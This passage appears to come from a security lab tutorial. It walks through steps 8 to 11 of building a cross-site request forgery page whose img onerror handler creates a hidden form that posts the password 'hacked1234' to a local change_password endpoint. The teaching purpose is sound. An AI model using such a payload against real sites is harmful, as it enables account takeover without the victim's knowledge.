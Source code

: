     - Notice the `<input type="text" name="new_password" placeholder="New Password">`. The `name` is what binds the text you put in the textbox to the HTTP request to change the password. You will use the `name` value `new_password` in your `csrf_attack.html`

8. Back in VS Code inside the `csrf_attack.html` file, define an input element in the JavaScript code
    ```{.html hl_lines="6"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input')
    "/>
    ```

9. Set the type of input to `hidden` so that its not visible to the user
    ```{.html hl_lines="7"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
    "/>
    ```

10. Set a name reference of the input that will be used to send to the HTTP request. The name reference will be the value you saw in the inspect window of the `Change Password` form
    ```{.html hl_lines="8"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
    "/>
    ```

11. Set the value of the input field. This value will be the new password when the malicious script is executed
    ```{.html hl_lines="9"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';

        const i = document.createElement('input');
        i.type = 'hidden';
        i.name = 'new_password';
        i.value = 'hacked1234'
    "/>
    ```
